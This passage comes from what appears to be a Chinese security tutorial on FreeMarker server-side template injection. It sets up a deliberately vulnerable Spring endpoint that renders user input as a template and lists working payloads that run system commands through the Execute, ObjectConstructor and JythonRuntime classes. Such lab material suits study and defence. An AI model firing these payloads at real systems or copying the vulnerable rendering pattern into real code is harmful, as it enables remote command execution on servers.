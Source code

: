 ```java
    @PostMapping("/template")
    public String render(@RequestParam Map<String, String> templates) throws Exception {
        // 设置模板
        for (Map.Entry<String, String> entry : templates.entrySet()) {
            dynamicLoader.putTemplate(entry.getKey(), entry.getValue());
        }

        // 获取模板
        Template t = freemarkerConfig.getTemplate("payload");
        Map<String, Object> model = new HashMap<>();

        StringWriter out = new StringWriter();
        t.process(model, out);
        return out.toString(); // 返回渲染结果
    }
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250429154326953.png)

freemarker.template.Configuration为配置器，在 FreeMarker 中，`StringTemplateLoader` 的 `putTemplate(String name, String templateContent)` 方法用于将模板添加到加载器中。

这种方式会直接把整个用户输入作为模板，而不是嵌入值。我们之后测试就用这个代码作为环境，这种通过java代码设置Configuration的方式，可以省略application.yml。因为getTemplate("payload")是指定渲染模板名为payload的模板

所以payload必须key名与getTemplate参数一致：`payload=%3C%23assign+value%3D%22freemarker.template.utility.Execute%22%3Fnew%28%29%3E%24%7Bvalue%28%22calc%22%29%7D`

如果你多次调用 `putTemplate` 方法，并使用相同的模板名称（`name`），那么后一次的调用会覆盖前一次的模板内容。

### payload

以下payload均是直接修改ftl才能触发，而不是向`${}`传参

> 我突然想起python SSTI也是render(payload字符串)去触发，而不是向占位符传参。

new触发：

```html
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
```

```html
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","Calc").start()}
```

下面这个需要目标有完整的Jython依赖

```html
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")</@value>
```

api触发：
